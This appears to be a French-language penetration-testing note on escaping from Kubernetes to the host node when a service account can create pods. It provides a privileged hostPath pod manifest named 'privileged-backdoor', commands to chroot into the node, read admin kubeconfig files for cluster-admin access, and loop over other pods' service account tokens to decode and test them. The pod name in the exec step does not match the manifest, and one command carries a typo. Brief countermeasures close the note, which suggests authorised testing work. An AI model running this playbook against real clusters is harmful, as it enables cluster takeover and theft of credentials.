

## Cas concret

Accès (token volé/legit) à un ServiceAccount ayant le droit `create` sur `pods` au sein d'un namespace (pas forcément plus).

**Prérequis RBAC minimum :**

```bash
kubectl auth can-i create pods -n <namespace> --as=system:serviceaccount:<ns>:<sa>
```

## Pourquoi ça marche

Le RBAC ne s'applique qu'à la couche API (`kube-apiserver`). Une fois le pod créé, on est dans le monde kernel Linux (namespaces, cgroups, capabilities) — RBAC ne gouverne rien à ce niveau. Un seul droit `create pods` suffit à demander une spec qui, elle, donne un accès quasi total au node.

## Étapes

### 1. Recon des droits

```bash
kubectl auth can-i --list -n <namespace>
```

Vérifier surtout : `pods (create)`, `hostPath` non bloqué par PSA/PSP/OPA.

### 2. Manifest du pod privilégié

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privileged-backdoor
  namespace: default
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  automountServiceAccountToken: true
  nodeName: <node-name>
  containers:
  - name: infiltr8
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", "sleep 3600"]
    securityContext:
      privileged: true
      runAsUser: 0
    volumeMounts:
    - name: host-root
      mountPath: /host
      readOnly: false
    - name: host-proc
      mountPath: /host/proc
      readOnly: false
    - name: host-sys
      mountPath: /host/sys
      readOnly: false
  volumes:
  - name: host-root
    hostPath:
      path: /
  - name: host-proc
    hostPath:
      path: /proc
  - name: host-sys
    hostPath:
      path: /sys
  tolerations:
  - operator: Exists
```

|Option|Effet|
|---|---|
|`privileged: true`|lève les capabilities/seccomp/AppArmor → root kernel quasi complet|
|`hostPID: true`|partage le PID namespace du node → voit tous les process|
|`hostNetwork: true`|partage la stack réseau du node → accès aux ports bind sur localhost|
|`hostPath: /` → `/host`|montage RW du disque du node|
|`tolerations: Exists`|permet le scheduling même sur nodes taintés|

### 3. Déploiement

```bash
kubectl --token=<token> -n <namespace> apply -f escape.yaml
nkubectl --token=<token> -n <namespace> exec -it escape -- sh
```

### 4. Chroot vers le node

```bash
chroot /host sh
```

⚠️ Le chroot ne donne rien de nouveau en droits — juste un confort de navigation (les chemins collent à ceux du node). L'accès filesystem existe déjà dès le montage `hostPath`.

### 5. Identifier le type de node

```bash
ls /var/lib/rancher/rke2/server/ 2>/dev/null && echo "CONTROL PLANE"
ls /var/lib/rancher/rke2/agent/ 2>/dev/null && echo "WORKER"
ps aux | grep -E "kube-apiserver|etcd|kubelet"
```

## 6a. Si accès control-plane node → jackpot direct

### Fichiers à cibler

```bash
# RKE2
cat /var/lib/rancher/rke2/server/cred/admin.kubeconfig

# vanilla k8s (kubeadm)
cat /etc/kubernetes/admin.conf

# k3s
cat /etc/rancher/k3s/k3s.yaml


```

### Exploitation

```bash
export KUBECONFIG=/var/lib/rancher/rke2/server/cred/admin.kubeconfig
kubectl auth whoami
# Username: system:admin (ou kubernetes-admin)
# Groups:   [system:masters system:authenticated]
```

→ **cluster-admin immédiat**, sans passer par un vol de SA token.

### Pourquoi ça marche

- Ces kubeconfig contiennent un **certificat client X.509** (mTLS), pas un bearer token.
- Le cert a `O=system:masters` en Subject → le CN devient `Username`, le O devient `Groups`.
- `system:masters` est un **groupe hardcodé dans le code du kube-apiserver**, bindé implicitement à `cluster-admin`. Ce n'est pas un ClusterRoleBinding listable, RBAC est **bypassé entièrement** (pas juste "autorisé par une règle très permissive").
- Contrairement à un token de SA (révocable en supprimant le Secret), un cert client compromis n'est révocable qu'en régénérant le CA du cluster ou via CRL — quasi jamais fait en pratique.

### Vérif rapide des droits obtenus

```bash
kubectl auth can-i '*' '*' --all-namespaces   # → yes
kubectl get clusterrolebindings -o wide | grep system:masters
```

### Comparaison rapide avec le vol de token SA (méthode habituelle)

|              | Token SA (bearer)               | Kubeconfig admin (mTLS)             |
| ------------ | ------------------------------- | ----------------------------------- |
| Identité     | `system:serviceaccount:ns:name` | CN/O du cert client                 |
| Droits       | Limités au RBAC bindé au SA     | `system:masters` = bypass total     |
| Localisation | Secrets, pods montés            | Filesystem control-plane uniquement |
### 6b. Si worker → looter les tokens des autres pods du node

```bash
find /var/lib/kubelet/pods/ -name "token" ! -path "*..*"
```

Décoder chaque token pour connaître namespace/SA sans les tester à l'aveugle (JWT payload lisible sans clé) :

```bash
for f in $(find /var/lib/kubelet/pods/ -name "token" ! -path "*..*"); do
  ns=$(cat "$f" | cut -d. -f2 | base64 -d 2>/dev/null | jq -r '.["kubernetes.io"].namespace')
  sa=$(cat "$f" | cut -d. -f2 | base64 -d 2>/dev/null | jq -r '.["kubernetes.io"].serviceaccount.name')
  echo "$f -> ns=$ns sa=$sa"
done
```

Tester les SA intéressants (hors namespace de départ, genre `kube-system`) :

```bash
kubectl --token=$TOKEN auth can-i --list
kubectl --token=$TOKEN auth can-i create clusterrolebindings
kubectl --token=$TOKEN get clusterrolebindings 2>/dev/null
```

### 7. Autres cibles utiles sur le node (complément)

```bash
crictl ps -a                          # tous les conteneurs du node, vue runtime
cat /etc/kubernetes/pki/ca.crt        # CA cert
find / -name "*.kubeconfig" 2>/dev/null
cat /root/.kube/config 2>/dev/null
```

### 8. Post Exploitation 

Si on peut récupérer tous les token des SA présent dans le Node, on peut utiliser cette commande pour lister le droit de chacun

```bash
kubectl auth can-i --list --token=$(cat chemin-token) --server=https://<IP-PRIVE-API-KUB>:443 --certificate-authority=/ca.crt
```

Pour récupérer l'IP privé de l'API kub, faire la commande suivante:
```bash
kubectl get svc kubernetes -n default -o jsonpath='{.spec.clusterIP}' 
```

## Schéma



## Notes / contre-mesures (pour la partie rapport)

- Pod Security Admission (`restricted` profile) ou OPA/Kyverno bloquent `privileged`, `hostPath`, `hostPID`, `hostNetwork` au moment de l'admission — avant que RBAC n'ait fini son job
- Principe du moindre privilège : éviter `create pods` sans restriction de `securityContext` via ValidatingAdmissionPolicy
- Isoler les control-plane nodes des workers (taints/tolerations stricts) pour limiter le blast radius d'un worker compromis

## Liens

- [[RBAC Kubernetes]]
- [[ServiceAccount Token Abuse]]


